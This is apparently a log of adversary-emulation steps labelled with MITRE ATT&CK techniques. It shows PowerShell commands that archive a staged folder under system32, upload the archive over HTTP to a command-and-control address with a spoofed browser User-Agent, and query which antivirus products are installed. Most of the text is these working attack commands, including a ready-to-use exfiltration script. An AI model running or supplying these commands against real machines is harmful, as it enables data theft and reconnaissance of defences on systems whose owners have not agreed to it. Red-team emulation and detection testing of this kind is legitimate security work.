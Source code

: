 
###   Description: Compress a directory on the file system


  Attack: {'tactic': 'exfiltration', 'technique_name': 'Archive Collected Data: Archive via Utility', 'technique_id': 'T1560.001'}

  Status: Success

  PID: 8848

  Start: 2024-09-13T18:30:34Z

  Command: 
```powershell
Compress-Archive -Path C:\Windows\system32\staged -DestinationPath C:\Windows\system32\staged.zip -Force;sleep 1; ls C:\Windows\system32\staged.zip | foreach {$_.FullName} | select
```


###   Description: Exfil the staged directory


  Attack: {'tactic': 'exfiltration', 'technique_name': 'Exfiltration Over C2 Channel', 'technique_id': 'T1041'}

  Status: Success

  PID: 8132

  Start: 2024-09-13T18:31:31Z

  Command: 
```powershell
$ErrorActionPreference = 'Stop';$fieldName = "C:\Windows\system32\staged.zip";$filePath = "C:\Windows\system32\staged.zip";$url = "http://172.31.10.226:8888/file/upload";Add-Type -AssemblyName 'System.Net.Http';$client = New-Object System.Net.Http.HttpClient;$content = New-Object System.Net.Http.MultipartFormDataContent;$fileStream = [System.IO.File]::OpenRead($filePath);$fileName = [System.IO.Path]::GetFileName($filePath);$fileContent = New-Object System.Net.Http.StreamContent($fileStream);$content.Add($fileContent, $fieldName, $fileName);$client.DefaultRequestHeaders.Add("X-Request-Id", $env:COMPUTERNAME + '-hkrmxr');$client.DefaultRequestHeaders.Add("User-Agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");$result = $client.PostAsync($url, $content).Result;$result.EnsureSuccessStatusCode();
```


###   Description: Identify AV


  Attack: {'tactic': 'discovery', 'technique_name': 'Software Discovery: Security Software Discovery', 'technique_id': 'T1518.001'}

  Status: Failed

  PID: 268

  Start: 2024-09-13T18:33:02Z

  Command: 
```powershell
wmic /NAMESPACE:\\root\SecurityCenter2 PATH AntiVirusProduct GET /value
```

